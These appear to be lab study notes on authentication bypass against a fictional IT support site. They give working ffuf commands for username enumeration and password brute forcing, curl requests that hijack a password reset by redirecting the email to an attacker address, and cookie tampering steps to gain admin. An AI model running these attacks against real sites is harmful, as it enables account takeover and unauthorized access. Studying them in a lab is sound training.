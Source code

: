 # Authentication Bypass

### **Authentication Bypass** <a href="#u0vkdg2j9685" id="u0vkdg2j9685"></a>

### **Username Enumeration** <a href="#id-74vaa3219bos" id="id-74vaa3219bos"></a>

* Creating a list of valid usernames is helpful exercise when trying to find authentication vulnerabilities.
* Website error messages are great resource for collating information to build list of valid usernames.

1. Go to the fake IT Support website’s signup page.
2. Use form to create a new user account.
3. Enter username 'admin' and fill in the other form fields with fake information.
4. Produces "An account with this username already exists" error.
5. Use existence of the error message to produce list of valid usernames already signed up on the system.

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ\&email=x\&password=x\&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE\_IP/customers/signup -mr "username already exists"

* \-w selects wordlist file.
* \-X specifies request method.
  * GET request by default.
* \-d specifies data to be sent.
  * username set to value of FUZZ.
  * FUZZ keyword signifies where contents from wordlist will be inserted in request.
* \-H adds additional headers to the request.
  * Content-Type is set so the web server knows that form data is being sent.
* \-u specifies URL that requests are made to.
* \-mr is text on the page to validate that a valid username has been found.

### **Brute Force** <a href="#t1m9tv1kvdxt" id="t1m9tv1kvdxt"></a>

* Automated process that tries a list of commonly used passwords against either a single username or a list of usernames.

1.Brute force the fake IT Support website’s signup page.

* Make sure the terminal is in the same directory as the valid\_usernames.txt file when running the ffuf command.

ffuf -w valid\_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1\&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE\_IP/customers/login -fc 200

* FUZZ keyword now needs to specify custom keywords because multiple wordlists are being used.
* W1 for the list of valid usernames.
* W2 for the list of passwords to try.
* \-w specifies the multiple wordlists but are separated with a comma.
* \-fc used to check for an HTTP status code other than 200 (a positive match).

### **Logic Flaws** <a href="#b06qevmobqa5" id="b06qevmobqa5"></a>

* Occurs when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.
* These can exist in any area of a website including authentication processes.

1. Examine the 'Reset Password' function of the fake IT Support website.
2. This has a form asking for the email address associated with the account on which to perform the password reset.
3. An 'Account not found from supplied email address' error message is received if an invalid email is entered.
   * Use the valid email address robert@acmeitsupport.thm.
4. The second stage of the reset form asks for the username associated with the login email address.
   * Enter robert as the username.
5. Press the 'Check Username' button.
6. Message confirms that a password reset email has been sent to robert@acmeitsupport.thm.
   * Username is submitted in a POST field to the web server and mail address is sent in the query string request as a GET field.
7. Manually make a request to the web server: curl 'http://MACHINE\_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
   * \-H adds an additional header to the request.
     * Content-Type set to application/x-www-form-urlencoded.
     * This lets the web server know that form data is being sent so it properly understands the request.
8. The user account is retrieved using the query string in this application.
9. However, the password reset email is sent using the data found in the $\_REQUEST PHP variable.
   * $\_REQUEST is an array that contains data received from the query string and POST data.
   * Application logic for $\_REQUEST favours POST data fields over the query string if the same key name is used for both the query string and 'POST' data
   * Because of this where the password reset email gets delivered to can be controlled if another email parameter is added to the 'POST' form.

curl 'http://MACHINE\_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert\&email=attacker@hacker.com'

1. Create another account in the customer section.
   * Doing so provides a unique email address that can be used to create support tickets.
2. The email address is in the format of {username}@customer.acmeitsupport.thm.
3. Rerun the curl Request but with the new @acmeitsupport.thm in the email field:
4. curl 'http://MACHINE\_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert\&email={username}@customer.acmeitsupport.thm'
5. This will create a ticket on the new account which contains a link to log in as Robert.

### **Cookie Tampering** <a href="#dhb1wqzcazgk" id="dhb1wqzcazgk"></a>

* Examining and editing cookies set by the web server during an online session can have multiple outcomes:
  * Unauthenticated access.
  * Access to another user's account.
  * Elevated privileges.

#### **Plain Text** <a href="#id-5uito3r70wbs" id="id-5uito3r70wbs"></a>

* The contents of some cookies can be in plain text, and it is obvious what they do.
* Sample cookies set after a successful login may be Set-Cookie: logged\_in=true; Max-Age=3600; Path=/ and Set-Cookie: admin=false; Max-Age=3600; Path=/.
  * One cookie (logged\_in) appears to control whether the user is currently logged in or not.
  * The other (admin) controls whether the visitor has admin privileges.
  * The changing of privileges should be possible if the contents of the cookies were to be changed and a new Request made.

1. Request the target page: curl http://MACHINE\_IP/cookie-test.
   * This returns a 'Not Logged In' message.
2. Send another Request with the logged\_in cookie set to true and the admin cookie set to false: curl -H "Cookie: logged\_in=true; admin=false" http://MACHINE\_IP/cookie-test.
   * This returns a 'Logged In As A User' message.
3. Send another Request setting both the logged\_in and admin cookie to true: curl -H "Cookie: logged\_in=true; admin=true" http://MACHINE\_IP/cookie-test.
   * This returns a 'Logged In As An Admin' message.

#### **Hashing** <a href="#kixysea8n8mo" id="kixysea8n8mo"></a>

* Cookie values can look like a long string of random characters (hashes).
* These are an irreversible representation of the original text.

| **Original String** | **Hash Method** | **Output**                                                                                                                       |
| ------------------- | --------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| 1                   | md5             | c4ca4238a0b923820dcc509a6f75849b                                                                                                 |
| 1                   | sha-256         | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b                                                                 |
| 1                   | sha-512         | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
| 1                   | sha1            | 356a192b7913b04c54574d18c28d46e6395428ab                                                                                         |

* Hash output from the same input string can significantly differ depending on the hash method in use.
* Same output is produced every time even though the hash is irreversible.
  * This is helpful for testers as services such as \[[https://crackstation.net/(](https://crackstation.net/\()][https://crackstation.net/](https://crackstation.net/)) keep databases of billions of hashes and their original strings.

#### **Encoding** <a href="#komj2knen50l" id="komj2knen50l"></a>

* Similar to hashing in that it creates a seemingly random string of text although encoding is **reversible**.\

* Allows conversion of binary data into human readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.\

* **Base32** converts binary data to the characters A-Z and 2-7.\

* **Base64** converts using the characters a-z, A-Z, 0-9, +, / and =for padding.\

* Example of data that is set by a web server upon logging in: Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/\

* Decoding the base64 string results in a value of {"id":1,"admin": false}.\

  * This can then be encoded back to base64 after setting the admin value to true to provide admin access.
